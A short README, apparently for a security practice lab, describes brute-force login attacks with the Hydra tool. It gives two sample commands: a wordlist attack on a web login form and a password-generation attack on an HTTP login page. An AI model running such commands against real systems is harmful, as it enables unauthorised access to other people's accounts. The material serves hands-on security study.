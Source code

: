 # Hydra Attacks Lab  
This folder contains terminal screenshots, commands, and notes for brute force login attempts using Hydra.

## ✅ Sample Command
hydra -L users.txt -P pass.txt 192.168.1.5 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
## ✅ Sample Command
hydra -v -V -l XXXXXX -x 6:6:a1 -f -v example.com http-get /user/login.php
